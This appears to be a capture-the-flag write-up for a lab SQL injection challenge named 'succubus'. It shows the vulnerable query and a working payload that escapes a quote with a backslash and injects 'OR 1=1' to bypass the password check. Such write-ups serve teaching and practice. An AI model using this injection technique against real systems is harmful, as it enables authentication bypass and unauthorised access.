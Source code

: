 ```yaml
---
custom_edit_url: null
pagination_next: null
pagination_prev: null
sidebar_position: 16
---
```


![1](https://github.com/Kunull/Write-ups/assets/110326359/2a9c4032-64cc-47b9-9c0f-ac36fc7a30d0)

We are provided with the SQL query:

```sql
SELECT id FROM prob_succubus WHERE id='{$_GET[id]}' AND pw='{$_GET[pw]}'
```

We cannot use single or double quotes in this challenge. Therefore, we need to find another way to modify the existing query.

Let's provide the following URI parameter:

```
?id=\
```

The resultant query becomes:

```sql
SELECT id FROM prob_succubus WHERE id='\' AND pw='{$_GET[pw]}'
```

As we can see, now the `\' AND pw=` part is being treated as a string. This is because the `\` character escapes the following character which was the closing single quote.

Anything we insert into the `?pw` parameter will thus be treated as code.

If we provide the following URI parameter:

```
?id=\&pw= OR 1=1 -- -
```

The resultant query becomes:

```sql
SELECT id FROM prob_succubus WHERE id='\' AND pw=' OR 1=1 -- -'
```

![2](https://github.com/Kunull/Write-ups/assets/110326359/36ca117e-f23f-4700-ae78-4f81102e8922)
